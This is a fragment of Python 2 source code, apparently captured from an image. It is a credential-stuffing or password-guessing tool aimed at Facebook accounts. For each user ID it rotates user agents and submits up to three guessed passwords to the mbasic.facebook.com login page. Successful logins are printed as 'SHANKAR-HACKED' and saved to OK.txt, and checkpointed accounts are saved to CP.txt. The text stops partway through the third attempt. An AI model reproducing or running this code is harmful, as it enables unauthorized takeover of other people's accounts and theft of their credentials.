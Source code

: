     def main(arg):
        user = arg
        (uid, name) = user.split('|')
        sharagent = random.choice(sua)
        session = requests.Session()
        session.headers.update({
            'Host': 'mbasic.facebook.com',
            'cache-control': 'max-age=0',
            'upgrade-insecure-requests': '1',
            'user-agent': sharagent,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'accept-encoding': 'gzip, deflate',
            'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7' })
        host = 'https://mbasic.facebook.com'
        
        try:
            data = session.post('https://mbasic.facebook.com/login.php', data = {
                'email': uid,
                'pass': ps,
                'login': 'submit' })
            sp = data.content
            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps + '\x1b[0;97m'
                ok = open('OK.txt', 'a')
                ok.write(uid + '|' + ps + '\n')
                ok.close()
                oks.append(uid + ps)
            elif 'checkpoint' in sp:
                print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps + '\x1b[0;97m'
                cp = open('CP.txt', 'a')
                cp.write(uid + '|' + ps + '\n')
                cp.close()
                cps.append(uid + ps)
            else:
                data = session.post('https://mbasic.facebook.com/login.php', data = {
                    'email': uid,
                    'pass': ps2,
                    'login': 'submit' })
                sp = data.content
                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    ok = open('OK.txt', 'a')
                    ok.write(uid + '|' + ps2 + '\n')
                    ok.close()
                    oks.append(uid + ps2)
                elif 'checkpoint' in sp:
                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    cp = open('CP.txt', 'a')
                    cp.write(uid + '|' + ps2 + '\n')
                    cp.close()
                    cps.append(uid + ps2)
                else:
                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                        'email': uid,
                        'pass': ps3,
                        'login': 'submit' })
                    sp = data.content
                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        ok = open('OK.txt', 'a')
                        ok.write(uid + '|' + ps3 + '\n')
                        ok.close()
                        oks.append(uid + ps3)
                    elif 'checkpoint' in sp: